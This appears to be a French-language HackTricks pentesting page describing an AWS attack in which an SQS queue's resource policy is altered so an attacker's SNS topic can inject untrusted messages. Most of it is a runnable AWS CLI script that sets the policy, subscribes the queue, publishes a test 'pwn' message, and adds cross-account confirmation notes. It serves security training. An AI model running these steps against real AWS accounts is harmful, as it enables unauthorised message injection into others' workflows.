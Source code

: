 # AWS – SQS Cross-/Same-Account Injection via SNS Subscription + Queue Policy

{{#include ../../../../banners/hacktricks-training.md}}

## Description

Abuser de la resource policy d'une file SQS pour permettre à un topic SNS contrôlé par un attaquant de publier des messages dans une file SQS victime. Dans le même compte, une subscription SQS à un topic SNS est auto-confirmée ; en cross-account, il faut lire le token SubscriptionConfirmation depuis la file et appeler ConfirmSubscription. Cela permet d'injecter des messages non fiables que les consommateurs en aval pourraient implicitement considérer comme de confiance.

### Requirements
- Capacité à modifier la politique de ressource de la file SQS cible : `sqs:SetQueueAttributes` sur la file victime.
- Capacité à créer/publier sur un topic SNS contrôlé par l'attaquant : `sns:CreateTopic`, `sns:Publish`, et `sns:Subscribe` sur le compte/topic de l'attaquant.
- Cross-account seulement : `sqs:ReceiveMessage` temporaire sur la file victime pour lire le token de confirmation et appeler `sns:ConfirmSubscription`.

### Same-account exploitation
```bash
REGION=us-east-1
# 1) Create victim queue and capture URL/ARN
Q_URL=$(aws sqs create-queue --queue-name ht-victim-q --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Create attacker SNS topic
TOPIC_ARN=$(aws sns create-topic --name ht-attacker-topic --region $REGION --query TopicArn --output text)

# 3) Allow that SNS topic to publish to the queue (queue resource policy)
cat > /tmp/ht-sqs-sns-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSTopicPublish","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"SQS:SendMessage","Resource":"REPLACE_QUEUE_ARN","Condition":{"StringEquals":{"aws:SourceArn":"REPLACE_TOPIC_ARN"}}}]}
JSON
sed -i.bak "s#REPLACE_QUEUE_ARN#$Q_ARN#g; s#REPLACE_TOPIC_ARN#$TOPIC_ARN#g" /tmp/ht-sqs-sns-policy.json
# Provide the attribute as a JSON map so quoting works reliably
cat > /tmp/ht-attrs.json <<JSON
{
"Policy": "REPLACE_POLICY_JSON"
}
JSON
# Embed the policy file contents as a JSON string
POL_ESC=$(jq -Rs . /tmp/ht-sqs-sns-policy.json)
sed -i.bak "s#\"REPLACE_POLICY_JSON\"#$POL_ESC#g" /tmp/ht-attrs.json
aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes file:///tmp/ht-attrs.json

# 4) Subscribe the queue to the topic (auto-confirms same-account)
aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --region $REGION

# 5) Publish and verify injection
aws sns publish --topic-arn "$TOPIC_ARN" --message {pwn:sns->sqs} --region $REGION
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --attribute-names All --message-attribute-names All
```
### Notes inter-comptes
- La policy de la queue ci-dessus doit autoriser le `TOPIC_ARN` étranger (compte attaquant).
- Les abonnements ne se confirment pas automatiquement. Accordez-vous temporairement `sqs:ReceiveMessage` sur la queue victime pour lire le message `SubscriptionConfirmation` puis appelez `sns confirm-subscription` avec son `Token`.

### Impact
**Impact potentiel**: Injection continue de messages non sollicités dans une file d'attente SQS de confiance via SNS, pouvant déclencher des traitements inattendus, la pollution de données ou l'abus de flux de travail.

{{#include ../../../../banners/hacktricks-training.md}}
